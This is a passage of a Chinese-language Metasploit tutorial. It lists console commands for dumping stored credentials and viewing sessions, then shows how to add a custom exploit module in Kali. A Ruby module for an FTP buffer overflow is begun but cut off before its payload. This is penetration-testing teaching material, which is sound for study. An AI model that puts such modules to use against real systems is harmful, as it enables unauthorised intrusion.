 ============================
```
creds   列出数据库中的所有凭据

```
```
sessions                    \\查看监听端口
```
resource 命令便可以直接执行我们预定好的操作
```
resource                    \\执行预定操作
```

## 给kali的Metasploit下添加一个新的exploit

`/usr/share/metasploit-framework/modules/exploits`目录下新建一个自定义文件夹，例如JOJO
![](img/14.png)

> 仿造`exploits`目录下的其他`exp(rb文件)`编写自己的exp.rb脚本(这边用0day安全:软件漏洞分析技术里的一个栗子)
```
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest# ls
0day1.rb
root@kali:/usr/share/metasploit-framework/modules/exploits/fwdtest# cat 0day1.rb
##
```
```rb
# This module requires Metasploit: http//metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
class Metasploit3 < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Ftp
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'security test',
      'Description'    => %q{
          This module exploits a buffer overflow.
      },
      'Author'         => 'fwd',
      'License'        => MSF_LICENSE,
      'Privileged'     => true,
      'Payload'        =>
```